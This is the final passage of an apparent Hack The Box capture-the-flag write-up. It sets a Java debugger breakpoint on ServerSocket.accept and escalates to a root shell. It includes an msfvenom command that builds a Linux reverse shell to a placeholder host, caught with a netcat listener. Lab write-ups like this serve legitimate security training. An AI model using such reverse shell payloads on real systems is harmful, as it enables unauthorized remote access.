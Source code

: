 #### Listing all threads


{% include image.html image_alt="cf8eb7cc.png" image_src="/37f3475d-8422-41b9-871e-6466dd67de6e/cf8eb7cc.png" %}


We are interested in `main` because that's where all the action originates.

#### Suspend all threads / Enter a thread / View the stack


{% include image.html image_alt="cd41bef1.png" image_src="/37f3475d-8422-41b9-871e-6466dd67de6e/cd41bef1.png" %}


Let's place a breakpoint in `java.net.ServerSock.accept`. According to the [documentation](https://docs.oracle.com/javase/7/docs/api/java/net/ServerSocket.html#accept()), ***it listens for a connection to be made and accepts. It blocks until a connection is made***. Recall the step where we list the listening ports? Because we don't know which port `ServerSocket` is bound to, we may need to try ports `8005/tcp` or `8009/tcp` to trigger the breakpoint.

#### Insert breakpoint / Trigger breakpoint

The `ServerSocket` object was bound to `8005/tcp`.


{% include image.html image_alt="c12b8778.png" image_src="/37f3475d-8422-41b9-871e-6466dd67de6e/c12b8778.png" %}


Awesome!

### Getting `root` shell

Let's get that `root` shell! We can use `msfvenom` to generate a reverse shell like so.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=x.x.x.x LPORT=1234 -f elf -o rev
```

I'll leave it as an exercise how that to transfer the file over to the box.


{% include image.html image_alt="d7c1ce33.png" image_src="/37f3475d-8422-41b9-871e-6466dd67de6e/d7c1ce33.png" %}


Over at my `nc` listener, a reverse shell appears...


{% include image.html image_alt="185031b3.png" image_src="/37f3475d-8422-41b9-871e-6466dd67de6e/185031b3.png" %}


With that, getting `root.txt` is trivial.


{% include image.html image_alt="42781b75.png" image_src="/37f3475d-8422-41b9-871e-6466dd67de6e/42781b75.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/216
[2]: https://www.hackthebox.eu/home/users/profile/13531
[3]: https://www.hackthebox.eu/
